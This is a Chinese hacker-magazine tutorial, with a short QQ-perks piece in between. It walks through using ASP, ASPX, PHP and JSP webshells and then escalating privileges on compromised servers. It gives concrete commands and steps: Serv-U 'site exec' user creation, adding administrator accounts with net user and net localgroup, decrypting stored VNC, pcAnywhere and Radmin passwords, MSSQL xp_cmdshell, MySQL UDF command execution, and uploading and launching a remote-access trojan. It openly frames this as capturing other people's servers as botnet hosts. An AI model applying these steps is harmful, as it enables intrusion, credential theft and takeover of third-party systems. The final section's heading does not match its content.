“组件支持”会显示服务器都支持哪些组件。比如存在 FileSystemObject 组件（FSO）的话就可以通过 FSO 对文件进行操作；存在 wscript.shell 组件的话就可以执行 cmd 命令，如图10。

“系统账户”如果权限允许会列出服务器上的用户和用户组，如图11；“查管理员”可以列出服务器上的管理员用户（需要权限）。“WMI-执行”可以通过 wmic 执行命令，可惜我这里提示访问遭到拒绝，估计是权限不够。

“安装软件”下面列出了哪些系统软件被安装，比如 MSSQL 等，还列出了系统当前路径变量。“服务设置”可以显示一些系统信息，比如主机名、是否启用了 Tcp/IP 筛选等，如图12。

“增加用户”在权限足够大的情况下可以在服务器上增加一个用户，但往往不会成功，不然还提权干什么啊！

“SQL-提权”可以在得到 sa 用户密码后尝试执行系统命令提权；“SQL-CMD”可以在知道 sa 用户密码的情况下执行命令。在第一个输入框中输入要执行的 cmd 命令，第二、第三个输入框中分别输入 sa 和 sa 用户密码，点“执行”按钮就可以执行系统命令了，如图13。

“CMD-命令”可以利用 wscript.shell 组件执行 cmd 命令。默认情况下调用的文件是 c:\windows\system32\cmd.exe（2003 系统；2000 系统下是 c:\winnt\system32\cmd.exe），但往往由于权限不够而拒绝访问。这时我们可以通过本木马的“上传文件”功能上传一个 cmd.exe 到网站目录，调用新上传的 cmd.exe 就能执行命令了。比如我把 cmd.exe 上传到了 c:\www\ 目录下，在“SHELL 路径”栏就填写“c:\www\cmd.exe”，勾选“WScript.Shell”，输入命令 net user，点“执行”按钮就发现命令执行了，如图14。

“SU 全通杀”和“Su-Ftp”是通过 Serv-U 提权的，这里就不细说了。“数据库字段复制”可以复制数据库字段；“蓝屏 0day”利用的漏洞已经过时了，这里也就不说了。

“端口扫描”可以扫描 Web 服务器都开放了哪些端口，收集服务器信息。“Port List”中输入你要扫描的端口号，点“scan”按钮后就会显示该端口是否开放，如图15。

“直接下载”可以把指定 URL 地址上的文件下载到 Web 服务器指定目录；“查注册表”可以读取注册表键值。为了方便，把读取 VNC 和 Radmin 保存在注册表中的连接密码操作做成了按钮。另外还列出了常用信息的注册表项，要读取直接复制过去就可以，不用记那些难记的注册表了，如图16。

“数据库操作”可以对 MDB 数据库文件进行连接、新建、压缩操作；“整站打包”可以把网站目录下所有文件打包到一个名为 HSH.mdb 的文件中（HSH.mdb 位于大马同目录下），方便把网站目录下所有文件下载。输入文件夹路径，点“开始打包”按钮就行了。

如果要解压打包的 HSH.mdb 文件，需要本机能支持 ASP，还是使用这个木马，在“文件包解开”下面输入 HSH.mdb 路径，点击“解开包”就会把文件解压到木马所在目录，如图17。

“在线代理”可以通过 webshell 所在服务器做代理去访问，但要输入完整网址，带上前面的“http://”，不过显示颜色好像有点问题，如图18。

使用了比较长的时间，总算介绍完了一个 ASP 大马。其实尽管大马采用的动态脚本语言可能不同，但很多功能都是相通的，比如都有文件操作和目录浏览功能等。所以我下面介绍 ASPX 大马、PHP 大马以及 JSP 大马时可能就从简了。

### 二、ASPX 大马

ASPX 木马比 ASP 木马权限要高一些，如果服务器支持 ASPX 脚本，那我们就要优先考虑 ASPX 木马了。ASPX 大马数量没有 ASP 大马多，但也有一些不错的，比如 Bin 编写的 aspx-spy，目前最新版本是 2.0。

为了给大家介绍，我在虚拟机中搭建好了 ASPX 环境。大马文件名为 aspxspy2.aspx，存放到网站根目录下，访问地址为 http://127.0.0.1/aspxspy2.aspx。直接输入默认密码 admin，点击右边“Login”就可以进去了，如图19。

aspxspy 的密码为 32 位 MD5 加密（小写）。如果你要修改为自己的密码，就把你的密码经过 MD5 加密后的值替换 aspxspy 源代码中：

`public string Password="21232f297a57a5a743894a0e4a801fc3";`

即把 admin 的“21232f297a57a5a743894a0e4a801fc3”替换即可。注意，输入登录密码后不要按回车，而要点“Login”按钮，否则不能登录。

登录后默认打开的是 File Manager，也就是文件管理器。在这里可以对 Web 服务器上的文件进行下载（Down）、复制（Copy）、编辑（Edit）、重命名（Rename）和修改文件时间（Time）等操作。

如果要查看网站根目录，就点 WebRoot；要创建文件夹，就点 Create Directory；而 Create File 可以在 Web 服务器上新建一个文件，如图20。

如果要删除一个文件，就在该文件前面的选框中打勾，然后点下面的“Delete selected”按钮。要浏览上级目录，就点“Parent Directory”按钮。“Fixed(C:)”和“Fixed(D:)”分别对应 C 盘和 D 盘，点击后就会进入。

如果要快速进入指定目录，在“Current Directory”后面输入目录名，点右面的“Go”按钮就可以进入了。要上传文件到 Web 服务器上，就先进入想要上传到的文件夹，然后通过“浏览”按钮选择要上传的文件，点“Upload”按钮就可以把文件上传上去。

“CmdShell”功能是执行 cmd 命令。由于 ASPX 木马权限比 ASP 木马大，因此使用系统默认的 c:\windows\system32\cmd 就可以执行命令了，如图21。注意输入命令时不要去掉前面“/c”参数，否则可能执行命令不正常。

“IIS Spy”可以列出服务器上的所有网站以及网站对应的物理路径，其中 path 对应的是物理路径，如图22。

“Process”可以列出服务器上的当前进程，能够让我们知道服务器上有哪些程序正在运行。“Services”列出了服务器上的服务（包括停止的服务）以及服务对应文件，在替换服务文件提权时需要用到它。“UserInfo”给出了计算机上用户信息，“SysInfo”则给出了计算机的一些信息，包括操作系统版本、时区、物理内存大小等。

“FileSearch”可以对文件进行搜索；“SU Exp”是利用 Serv-U 进行提权；“RegShell”可以对注册表键值进行读取；“PortScan”可以扫描服务器开放了哪些端口，开放端口显示 Open，没开放显示 Close。

“DataBase”可以连接数据库服务器。比如我要连接 MSSQL 数据库，就选择数据库类型 MSSQL，就会自动给出连接字符串：server 后面输入 MSSQL 服务器名字或 IP 地址，UID 后面输入 MSSQL 数据库用户名，PWD 后面输入 MSSQL 数据库用户密码，其它保持默。

点“Go”就可以连接到数据库了。由于是 sa 用户，发现可以执行系统命令，具体步骤为：选择数据库 master，SQLExec 选择 XP_cmdshell exec，下面就会自动给出执行命令的范例 `Exec master.dbo.xp_cmdshell 'net user'`，点“Query”按钮后发现成功执行了 `net user` 命令，如图23。

“PortMap”是端口转发用的。如果 Web 服务器在内网又开了 3389，我们在建立了管理员用户进行登录时就需要进行端口转发，使用 lcx 是一个选择；如果服务器上能运行 aspxsay，那使用 PortMap 就可以解决问题了。

aspxspy 这款 aspx 大马就为大家简单地介绍到这里，希望大家能在实际使用中对它有更好的了解，下面再来看 php 大马。

### 三、PHP大马

现在越来越多的网站都采用基于 PHP 动态语言的程序来搭建网站，因此 php 大马也是经常用到的。比较出名的 php 大马有国内的 phpspy 和国外的 C99Shell 等，今天我就以 phpspy 为例来给大家介绍。为了能让 phpspy2008 运行，我在虚拟机的 Windows 2003 系统中搭建好了 php 环境，具体为 Apache+PHP+MySQL+phpMyAdmin+Zend。把 phpspy2008.php 存放到网站根目录下，访问地址为 `http://127.0.0.1/phpspy2008.php`，输入默认的密码 angel，点击“Login”按钮就可以登录进去了，如图24。  
如果要修改登录密码的话，可以在 phpspy2008 的源代码中找到 `$admin['pass'] = 'angel';`，把 angel 替换成新密码就行了。


大家是不是觉得有些眼熟，几乎和 aspxspy 默认打开的页面一模一样，都是 File Manager（文件管理器），相同的功能就不重复介绍了，只介绍不同的。phpspy2008.php 可以显示当前磁盘的总大小以及可用磁盘空间，多了个“View Writable”功能，可以检查当前目录下哪些文件夹可写。另外 phpspy2008 还可以显示文件和文件夹的读写权限。

“MySQL Manager”可以对 MySQL 数据库进行操作，在得到 MySQL 数据库的数据库用户名和密码后就可以进行连接了。DBHost 后面输入 MySQL 数据库的名字或 IP 地址，一般填写 localhost；DBUser 后面填写数据库用户名；DBPass 后面填写数据库用户的密码；DBCharset 保持默认的 Default，点“Connect”进行连接。连接进去以后选择一个数据库就可以看到该数据库的内容了，并且可以对数据库进行插入（Insert）、Structure、删除（Drop）等操作，如图25。

“MySQL Upload & Download”可以通过 MySQL 的一些功能实现文件的上传、下载。填好数据库用户、密码等信息，在 DBName 后面输入一个数据库的名字，这里我填写 MySQL 自带的数据库 mysql；Save path(fullpath) 后面输入想在服务器上保存文件的完整路径，包括文件名。比如我想把本机的 cmd.exe 上传到服务器的 C 盘根目录下，Save path 就填写“c:/cmd.exe”，通过“浏览”按钮选择本机的 cmd.exe，点“Upload”按钮后就会把文件传上去了，如图26。


如果要下载文件，在“Download file”的 File 后面的输入框中输入文件在服务器上的完整路径，然后点“Download”按钮就可以把服务器上的文件下载到本地了。“Execute Command”可以执行 cmd 命令，在 Apache+PHP+MySQL+phpMyAdmin 搭建的 php 环境中，默认配置的情况下 php 文件是以 system 权限运行的，所以可以直接执行任意系统命令。在 Command 下面的输入框中输入要执行的命令，点“Execute”按钮后就可以执行了，如图27。

“PHP Variable”给出了 PHP 的环境信息，比如 Web 服务器软件显示的就为 Apache/2.0.63 (Win32) PHP/5.2.8。“Eval PHP Code”可以执行你自己的 PHP 代码，对 php 比较熟悉的话可以自己编写 php 代码来执行，比如输入以下代码 `<?print_r("菜鸟学堂的朋友们大家好。");?>`，点“Submit”就会显示“菜鸟学堂的朋友们大家好。”了，如图28。


### 四、JSP大马

采用 JSP 动态脚本语言的网站一般都是大站，这样的站点在网上不是很多，但还是有必要介绍一下 jsp 大马。一年前比较火爆的 tomcat 弱口令抓鸡就用到了 jsp 大马。我要给大家介绍的 jsp 大马是来自德国的 Jsp file browser。老样子，我在虚拟机的 2003 系统中使用 javasdk+tomcat 搭建了 jsp 环境，把 Browser.jsp 存放到网站根目录下的 myapp 文件夹下，访问地址为 `http://localhost:8080/myapp/Browser.jsp`。Jsp file browser 并不需要登录，直接就来到了如图29所示的界面。


最上面以红色字体显示了 Browser.jsp 所在的物理路径。如果对文件进行下载和编辑，直接点文件右面的“Download”和“Edit”就行了。在文件前面的选框中勾选上一个文件后，点“Download selected files as zip”可以把选择的文件进行压缩后下载，下载后的默认文件名为 rename_me.zip，下载到本地后需要解压缩，直接使用 WinRAR 就可以。点“Delete selected files”可以删除选择的文件。

在“Create Dir”左面的输入框中输入一个文件夹的名字，点“Create Dir”就会在当前目录下新建一个文件夹了。在“Create Dir”左面的输入框中输入一个文件的名字，比如 hello.txt，点“Create File”就会在当前目录下新建 hello.txt 文件。选择一个文件，在“Create Dir”左面的输入框中输入一个服务器上存在的目录，然后点“Move Files”就会把选择的文件移动到指定的目录下，点“Copy Files”会把选择的文件复制到指定的目录下，选择一个文件后点“Rename File”可以对选择的文件进行重新命名。

如果你要上传文件到服务器上，通过“浏览”按钮选择要上传的文件，然后点“Upload”按钮就可以把文件上传到当前目录下了，如图30。上传的时候会报错，不过文件已经传上去了，文件名类似“&#26700”，重命名一下就好了。

作为一个大马，不能少了执行 cmd 命令的功能。Jsp file browser 执行 cmd 命令的地方是在最下面，点“Launch command”就来到了执行 cmd 命令的地方，在下面的输入框中输入要执行的命令；点“Launch”按钮就可以执行了。由于是国外木马，编码可能有点问题，命令回显结果中有一些乱码，不过我们也可以明显地看到命令已经成功执行了，如图31。在 javasdk+tomcat 搭建的 jsp 环境中，jsp 文件是以 system 权限运行的，也就是说可以执行任意系统命令哦。

> txcbg 往台下看了看，发现有几个叉子已经趴在课桌上睡着了，赶紧用黑板擦敲了敲桌子，大声说道：“吃饭了！”立马，几个睡觉的叉子马上精神抖擞地睁开了眼睛。  
> “今天分别为大家介绍了 asp、aspx、php、jsp 环境下的大马各一只，希望大家都能熟练灵活地运用。刚才几个上课睡觉的罚你们请我吃饭，大家下课！”  
> （文中涉及到的 dama.asp、aspxspy2.aspx、phpspy2008.php 和 Browser.jsp 已收录到光盘中）☯

## 会员功能免费用

天空y→思念n（杨楠）

QQ会员的特权很吸引人，但是对于像我这样的穷学生来说，每月10元的费用用来开会员显然是不值得的。今天，我就教大家如何免费使用会员的部分功能。

### 一、使用会员专属头像

QQ会员专用头像可比普通用户的头像炫多了，如果没有开通会员可是用不了，如图1。不过我们可以另辟蹊径，通过其他的方法使用会员头像。相信各位叉子都没有注意过头像下头的这个按钮吧，如图2。我们可以将自己心仪的会员头像从网页上（http://face.qq.com/）下载回来，不过可恶的腾讯将右键锁死了，我们不能再用以往的方式将图片另存为了，那要怎么办呢？


记得《X档案》以前收录过利用系统中的缓存来找被锁定的视频，这次就用来找我们的头像。首先打开缓存文件夹：

- XP系统所在盘：`\Documents and Settings\用户名\Local Settings\Temporary Internet Files`
- Vista系统所在盘：`\Users\用户名\AppData\Local\Microsoft\Windows\Temporary Internet Files`

将所有文件按类型顺序排列，然后将图片格式的文件复制到别的文件夹。这是因为在缓存文件夹中我们无法查看图片的缩略图，不方便挑选头像。选择好了，在 QQ 上上传头像，这样我们用的就是会员专用的头像了，如图3。这样不仅可以使用静态的头像，动态的也可以哟。


### 二、无限制发送图片

发送些漂亮的图片可以活跃我们与网友的聊天气氛，可是这样实用的功能腾讯也有限制：每天非会员最多发10张，花钱开会员才不限制（这里先 BS 一下 TX）。没关系，我们依旧免费用，这也符合我们的菜鸟身份。

在网页中找到自己想要发的图片，单击右键，选择添加到 QQ 表情，如图4，然后就可以在聊天时使用了。这样不仅可以突破10张的限制，还方便我们下次再使用，是不是很实用呢？☯


## 黑客兵器谱之提权步步高

txcbg

一天，txcbg 心血来潮，想找几个网站“练练手”。为了安全和不必要的麻烦，首先连接由服务器肉鸡搭建的 VPN 服务器，却发现无法连接，看来那台服务器肉鸡又丢了，又得抽空抓几台服务器肉鸡了。说到抓服务器肉鸡，每个人都有自己喜欢的方法。我一般不使用扫描 1433、3306 等方法来抓服务器肉鸡，因为使用这种方法抓的肉鸡来得快去得也快，你能扫描别人也能，很容易出现好几个人共抢一台服务器肉鸡的情况。我比较喜欢通过 webshell 提权得到的服务器肉鸡，提权越困难，肉鸡在你手里存活的时间也就越长。

注意了，注意了，菜鸟学堂11月份的课就要开始了。一大早，就见 txcbg 老师站在讲台上，上课铃声响过后，txcbg 首先向台下的叉子深深地鞠了一躬，把叉子们弄得一头雾水，txcbg 开始说话了：“从08年11月开始给大家上第一堂课，到现在已经过去一年了，感谢大家一年来和我共同走过，同时也感谢赞助商黑客X档案给了我这个能为大家上课的机会。”

“上两堂课给大家详细地介绍了 webshell 的使用，相信许多小菜都拿到许多网站的 webshell 了吧。那么拿到这些 webshell 都有什么用呢？有的叉子说可以对网站目录下的文件进行操作，但我们却并不满足这样，我们还想拿到整个服务器的权限。从 webshell 到获得服务器权限需要经历一个提权的过程。当然，要提权通常就要先得到一个 webshell，这个 webshell 就是你提权的跳板、敲门砖。这节课我就教大家一些基本、常用的提权方法，让大家也能够通过提权得到服务器肉鸡。”

什么是提权呢？顾名思义，提权就是提升权限。通常我们得到的 webshell 权限都比较低，一般只有 guest（asp 的 webshell）权限或是 user（aspx 的 webshell）权限，利用各种方法获得 administrator 权限甚至 system 权限的过程就是提权。提权一般是利用需要提权的服务器上已经安装的软件漏洞或是服务器的配置漏洞来完成的。因此要想提权成功，一定要对服务器上安装了哪些软件、开启了哪些服务有一个比较深入的了解才行。

在服务器能够执行 cmd 命令的情况下，可以使用 `systeminfo` 命令来获取这些相关信息，它可以给出主机名、CPU、内存、操作系统版本等基本信息，另外它还列出系统都打了哪些补丁，这在考虑是否使用溢出漏洞提权时是个重要的参考，如图1。

查看系统安装了哪些软件，可以通过 webshell 列取 `C:\Program Files\` 目录（这是系统安装在 C 盘的情况，如果系统安装在 D 盘，那就是 `D:\Program Files\`），比如我发现 `C:\Program Files\` 目录下有 WinRAR 这个文件夹，就知道系统安装了 WinRAR。要查看开启了哪些服务，可以使用 `net start` 命令；要查看开放了哪些端口，可以使用 `netstat -ano` 命令；要查看当前系统有哪些程序在运行，可以使用 `tasklist` 命令（Windows 2000 系统不支持）。

在对要提权的服务器有一个比较深入的了解后，就可以提权了。提权的方法有很多，下面请听我一一道来。


图1

### 一、Serv-U提权

Serv-U 是一款被广泛应用的 FTP 服务器软件，支持全部版本的 Windows 系统，它的设置非常简单，功能却很强大，性能也非常稳定。我们通过它使用 FTP 协议就能在 Internet 上共享文件，它并不是简单地提供文件下载，还为用户的系统安全提供了相当全面的保护。例如可以为你的 FTP 设置密码、设置各种用户级的访问许可等等。

Serv-U 不仅100%遵循标准 FTP 标准，也包括众多独特功能，可以为每个用户提供文件共享的完美解决方案。它可以设定多个 FTP 服务器、限定登录用户的权限、登录主目录以及空间大小等等。它还有非常完备的安全特性，支持 SSL FTP 传输，支持在多个 Serv-U 和 FTP 客户端通过 SSL 加密连接来保护你的数据安全等。虽然功能非常强大，但 Serv-U 尤其是早期版本却存在严重的安全漏洞，攻击者在得到一个 webshell 后利用 Serv-U 的漏洞就可以轻易拿到系统的 System 权限。而正是由于 Serv-U 功能强大、使用简单，所以在服务器上安装使用 Serv-U 的特别多，因此 Serv-U 也自然就成了提权大户。虽然在较新的 Serv-U 版本中已经修补了以前的一些安全漏洞，不过还是可以用来提权的。

默认安装的 Serv-U 是以 System 权限运行的，而 Serv-U 又可以建立执行命令的用户，因此我们就可以通过建立一个可以执行命令的 FTP 用户来执行系统命令，以达到提权的目的。如何建立可以执行系统命令的 FTP 用户呢？Serv-U 的配置信息是保存在配置文件 ServUDaemon.ini 或注册表中的。如果对 ServU-Daemon.ini 或相应的注册表项可以写，那么就可以通过修改配置信息来添加一个可以执行命令的 FTP 用户了。

我就建立了一个用户名和密码都为 1 的 FTP 用户，角色为 System Administrator，并赋予了它执行命令的权限，主目录为 `d:\`，在 ServU-Daemon.ini 配置文件中的具体内容如图2所示。连接并使用添加的账号登录 FTP 后，就可以使用 `quote site exec "net user ftp ftp /add"` 的形式来执行命令了，如图3。”


“如果对 Serv-U Daemon.ini 文件没有写权限又该怎么办呢？”台下一叉子问道。

“问得好，如果 webshell 对 Serv-U Daemon.ini 文件没有写权限，那还能使用 Serv-U 提权吗？当然可以。因为 Serv-U 早期版本还存在一个本地溢出漏洞，利用它也可以执行任意系统命令。相应的溢出工具有很多，有 exe 版的，还有使用各种脚本编写的。由于并不是每一个 webshell 都可以执行 exe 文件，因此在提权时我们一般使用脚本形式的提权工具，而且很多大马也都集成了 Serv-U 提权功能，这使得提权变得更方便了。”

“其实刚才介绍的通过修改 Serv-U 配置文件来提权的功能在很多大马中也集成了，比如上一堂课介绍的 asp 大马就带了‘Serv-U FTP提权程序——通杀版’，其中管理员的密码、Serv-U 端口等信息都是可以自己定义的，在‘添加的用户名’和‘添加的用户密码’后面分别输入要添加的用户名和密码，选中‘确定添加’点‘提交’就可以建立一个可以执行系统命令的 FTP 用户了，如图4。”

“还有可以直接执行命令的，连 FTP 都不用登录，比如 Hoffman 的 asp 木马的 Serv-U 提升权限功能，默认就是添加一个管理员用户。如果服务器开了远程桌面服务的话就可以直接登录了。如果服务器没有开远程桌面，我们就可以通过 webshell 上传木马，然后利用 Serv-U 提升权限的执行命令功能运行你的木马来达到提权的目的。上堂课介绍的 aspx 大马 aspxspy2.0 也提供了 Serv-U 提权功能，而且操作更简单。在 ASPXSpy 中点击‘SU Exp’就来到了 Serv-U 提权的地方，在‘CmdShell’栏直接填入想要执行的命令，比如 `cmd.exe /c net user hackerxfiles hackerxfiles /add`，然后点‘Exploit’执行命令就会添加一个用户名和密码都是 hackerxfiles 的用户了。我在虚拟机中安装了 Serv-U FTP Server v6.4.0.6，执行 `net user` 命令后发现用户 hackerxfiles 已经添加成功了，如图5。”

“再来执行命令 `cmd.exe /c net localgroup administrators hackerxfiles /add` 把 hackerxfiles 用户提升为系统管理员就成功了。如果是执行木马，假设你的木马上传到了服务器的 C 盘根目录下，名字为 1.exe，那么输入命令 `cmd.exe /c c:\1.exe` 就可以执行你的木马了。”

“其实有关 Serv-U 提权的内容有很多，如果要细讲的话恐怕一节课也说不完。但由于方法都比较老，而且网上也介绍得很多，导致很多服务器管理员都做了安全设置，比如对 Serv-U 的安装目录进行了权限设置，使我们根本无法浏览，通过修改配置文件提权的方法也就失效了。所以，即使遇到安装了 Serv-U 的服务器，提权也不那么简单了。如果大家想对 Serv-U 提权有更深入的了解，可以到网上去查找一下相关资料，我们再来看看别的提权方法。”


### 二、服务器常用远程管理软件提权

很多服务器都是存放在专门的机房中，管理员为了便于维护和管理服务器往往都会在服务器上安装远程管理软件，但这些软件有时会存在一些安全隐患，导致我们可以利用它们来提升权限。

#### 1、RealVNC提权

RealVNC 是工业标准 VNC 的一个增强版本，提供了核心的 Enterprise Edition 安全增强，包括 2048 位 RSA 服务器验证和 128 位 AES 会话加密，加上为 Windows 网络量身定做的许多其他特性，使得它成为了一款管理员常用的远程管理软件。在采用“VNC password”进行安全验证时，管理密码是经过可逆算法加密后保存在注册表中的，读取注册表中加密的密码并解密后就能得到 RealVNC 的管理密码，从而可以像管理员那样来控制服务器。RealVNC 的密码一般保存在 `HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4\password` 下，如果能够执行 cmd 命令的话，那么执行：

`reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v`password，就可以得到加密后的密码了，如图6。

密码是类似 D3B8D88A7E829ACC 的一些十六进制数，该怎么解密呢？不用着急，我们有专门的工具——VNC4PASS。它需要在命令行下运行，我们在 cmd 下切换到 VNC4PASS.exe 所在的目录，执行命令 `VNC4PASS.exe -W`，会出来一个等待输入的光标，把加密的密码每次输入两位后回车，就这样直到所有的密码输入完，回车后就可以看到解密后的密码了，如图7。得到了明文密码 123，正是我设置的 RealVNC 的密码，在得到密码后就可以使用 VNC Viewer 连接上去了，连接上去后就像使用你自己的电脑一样，想干什么就干什么，如图8。

## 2、PcAnywhere提权

Symantec pcAnywhere 将安全及业界领先的远程控制与新增的远程管理和高级文件传输功能相结合，加快了解决技术支持和服务器支持问题的速度。新增的远程管理功能包括一些常见工具，如任务管理器、命令提示符及远程编辑注册表的功能等。新增的命令行队列功能允许管理员生成包含多个文件和 DOS 命令的队列，并按顺序进行处理，可以根据需要重新设置文件的优先级、暂停文件以及从队列中删除文件。文件传输发生在后台，因此管理员可以不间断地工作，并在发送其他文件的同时继续选择文件，管理员甚至可以将文件按顺序发送至多台计算机。

因为它的功能很强大，所以在服务器上安装的也有很多，但它有一个重大的安全漏洞，就是保存远程管理员账号的 CIF 文件中的密码是可以被轻易解密的。如果我们拿到一台主机的 webshell，通过查找发现它安装有 PcAnywhere，同时保存密码文件的目录允许我们的 webshell 访问，那么就可以把这个 CIF 文件下载到本地进行破解，再通过 PcAnywhere 从本机登录服务器了。保存密码的 CIF 文件位于 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere` 目录下（默认安装的情况下），把 `.cif` 文件下载回来后就可以使用专用的工具进行破解了，工具名叫 PcAnywhere PassWord Crack，其界面如图9所示。

通过那个“>>”按钮选择要破解的 `.cif` 文件，然后点“Crack”按钮就可以进行破解了。如果破解出来的话就会显示使用 PcAnywhere 登录的用户名和密码。在得到用户名和密码后，下载一个 PcAnywhere，安装后点击“Quick Connect”，在弹出的连接界面的“Manual entry”中输入你要连接的服务器 IP，然后点“Connect”按钮进行连接，如图10。连接成功后就会弹出让你输入用户名和密码的对话框，输入破解得到的用户名和密码，点“OK”就可以登录上去了，如图11。

在用 PcAnywhere 提权时要注意，PcAnywhere 比较新的 V12.0 以及最新的 V12.5 版本的 `.cif` 文件中的用户名和密码，使用 PcAnywhere PassWord Crack 是破解不出来的，可能是更改了加密算法。不过据我测试，v11.51 版本的可以破解，估计 v11.51 以下版本的也都可以破解。好在很多服务器使用的 PcAnywhere 版本都比较旧，如果服务器上安装了 PcAnywhere，那么我们还是有很大几率提权成功的。

#### 3、Radmin提权

Radmin 是一款优秀的服务器远程管理软件，可以帮助我们在远程电脑上工作，如同坐在那台电脑前一样。该软件是理想的远程访问解决方案。我们可以从多个地点访问同一台电脑，并使用高级文件传输、远程关机、Telnet、操作系统集成的 NT 安全性系统支持以及其他功能。Radmin 3.x 版本以前的管理密码是经过 MD5 加密后保存在注册表中的，本来由于经过了 MD5 加密，密码不是太简单的话是不容易破解出来的，但后来有位牛人发现只要得到密码加密后的 Hash 值就能登录，并且公布出了 Radmin Hash 登录版，一时间很多安装了 Radmin 的服务器都沦为了肉鸡。Radmin 加密的密码一般保存在注册表的 `HKEY_LOCAL_MACHINE\SYSTEM\Radmin\v2.0\Server\Parameters` 这个位置，读取到加密的密码后直接使用 Radmin Hash 登录版进行登录就可以完成提权了。

### 三、数据库提权

数据的处理离不开数据库，几乎所有的 Web 服务器都安装了数据库管理软件，并且这些数据库软件在默认安装的情况下是以 System 权限运行的，这就为我们通过数据库软件执行系统命令提权创造了条件。提权中经常用到的两个数据库是 Mssql 和 Mysql，虽然 Oracle 数据库也可以用来提权，但由于利用 Oracle 数据库的一般是大型网站，我没有条件进行演示，就不给大家介绍了，有兴趣的朋友可以自己到网上查找一下相关资料。

### 1、Mssql提权

Mssql 即 Microsoft SQL Server，是微软公司推出的关系数据库解决方案，最新的版本是 SQL Server 2008，已经在去年 8 月 6 日上市了。Microsoft SQL Server 数据库的内置语言是由美国标准局（ANSI）和国际标准组织（ISO）所定义的 SQL 语言，微软公司对它进行了部分扩充而成为作业用 SQL（Transact-SQL）。Microsoft SQL Server 几个初始版本适用于中小企业的数据库管理，但是近年来它的应用范围有所扩展，已经触及到大型、跨国企业的数据库管理。

在网站建设中，和 Mssql 搭配的一般是 asp 脚本和 aspx 脚本，如果得到 webshell 后发现网站是基于 asp 或 aspx 程序的，看看是不是用的 Mssql，而且数据库用户是 sa，如果是的话就可以用来提权了。sa 是 Mssql 安装时的默认账户，默认权限为 systemadmin，也就是 System 权限。对于 asp 程序，数据库连接信息一般是保存在 conn.asp 中（当然也可能是别的文件名，通过读取后台登录文件源码中包含文件名的名字就能找到数据库连接文件），具体连接代码类似 `Data Source=192.168.0.100;Initial Catalog=SkyEducation;User Id=sa;PASSWORD=ztzxnb8030;` 这样，其中 User Id 对应的是数据库用户名，PASSWORD 对应的是数据库连接密码，Data Source 对应的是数据库服务器的名称或 IP，Initial Catalog 对应的是连接的数据库。对于 aspx 程序，数据库连接信息一般是保存在 Web.config 文件中，连接代码类似于 `Data Source=127.0.0.1;Initial Catalog=TPI_PIS;User ID=sa;PassWord=sa"` providerName="System.Data.SqlClient" 这样，其中 User ID 和 PassWord 对应的是数据库的用户名和密码。找到的数据库连接信息是 sa 用户的，就可以尝试来提权了。Mssql 管理端口是 1433，如果 1433 端口可以外部连接的话我们就可以在自己的电脑上使用 SQLTools 进行连接了。

打开 SQL-Tools，点击“SQL 服务器设置”下面的“设置”按钮，就弹出了如图12所示的设置 SQL 服务器对话框。

分别输入需要连接的 Mssql 服务器的地址、用户名、密码以及要连接的数据库，一般使用 Mssql 自带的数据库 Master，点击“确定”按钮进行连接。连接成功后，“利用目录”菜单就变成了可用状态，选择下面的“执行 DOS 命令”，就来到了执行命令的地方，点“执行”按钮来执行一下默认提供的命令 `DIR C:\`，成功执行了，如图13。

再来看一下权限，执行命令 `whoami`，显示为 `nt authority\system`，是 System 权限，如图14。这下好办了，如果服务器开了远程桌面并且可以远程连接的话，我们就可以直接执行命令 `net user 123 123 /add`、`net localgroup administrators 123 /add`，建立一个用户名和密码都是 123 的管理员用户，然后使用远程桌面连接程序登录就可以了。

如果服务器没有开远程桌面服务，或开启了但由于种种原因不能连接，我们可以通过 SQLTools 上传一个反弹木马上去，选择“利用目录”下的“上传文件”就来到了上传文件的地方，通过“浏览文件”按钮选择你要上传的木马，这里我使用的是 pcshare，选择生成的 pcshare 服务端程序，上传文件的保存位置就填写 `c:\ps.exe`，点“开始上传”，成功后就把文件上传到了服务器的 C 盘根目录下，如图15。然后通过“执行 DOS 命令”来运行上传的木马，命令为 `start c:\ps.exe`，很快就看到木马上线了，如图16。

其实在得到 sa 用户的密码后，不一定非要使用别的工具从外部连接提权，很多 webshell 都集成了连接 Mssql 数据库进行提权的功能，比如上堂课介绍的 aspx 大马 aspxspy2.0 就可以连接 Mssql 数据库并且执行系统命令，如图17。

### 2、Mysql提权

MySQL 是一个小型关系型数据库管理系统，开发者为瑞典 MySQL AB 公司，该公司在去年 1 月 16 号被 Sun 公司收购，而今年，SUN 又被 Oracal 收购了。目前 MySQL 被广泛地应用在 Internet 上的中小型网站中，由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，许多中小型网站为了降低网站总体拥有成本而选择了 MySQL 作为网站数据库。

MySQL 在安装时有一个 root 用户，它在 MySQL 中拥有最高权限。由于 mysql 默认情况下是以 System 权限运行的，在得到 root 用户的密码后我们就可以使用 System 权限做一些事了。Mysql 虽然不能像 Mssql 那样直接执行系统命令，但它允许自定义函数，我们可以通过自定义函数来执行系统命令从而达到提权的目的。

使用 Mysql 数据库的一般是采用 php 脚本的网站，要找到网站程序连接数据库的用户名和密码比较简单，读一下后台登录文件的源码就可以找到了。比如 dedecms 的后台登录文件的开头有这么两行：

> require_once(dirname(__FILE__)."/../include/config_base.php");
> require_once(dirname(__FILE__)."/../include/inc_userlogin.php");

发现包含了两个文件，看名字 config_base.php 就像是保存配置信息的，找到 config_base.php 后查看其源代码，果然发现了数据库连接信息，如图18。

知道了数据库用户名 root，密码是 123456，那下面就来提权吧。用到的工具是“MySQL_Udf.dll 提权专用网马 2009.6.16 重新编译版”，免杀效果不错，其实就是一个 php 文件，用 webshell 把它上传到网站目录下，访问后的界面如图19所示。输入数据库用户名 root 以及 root 用户的密码，数据库就写 mysql（Mysql 自带的），点“提交”按钮进行连接，连接成功后如图20所示。

### 四、粘滞键后门提权

如果服务器是 Windows 2003 系统的话，直接点“导出安装”按钮把 udf.dll 导出到 `c:\windows\system32\` 目录下；如果服务器是 Windows 2000 系统，就把导出路径修改为 `C:\Winnt\System32\udf.dll`。导出成功后，“SQL 命令”下面会自动给出命令 `Create Function MyCmd returns string soname 'udf.dll';`，直接点“执行命令”按钮，可能会提示数据库查询出错，不用管它，再执行命令 `Select MyCmd("net user")`，就发现成功执行了命令 `net user`，如图21。

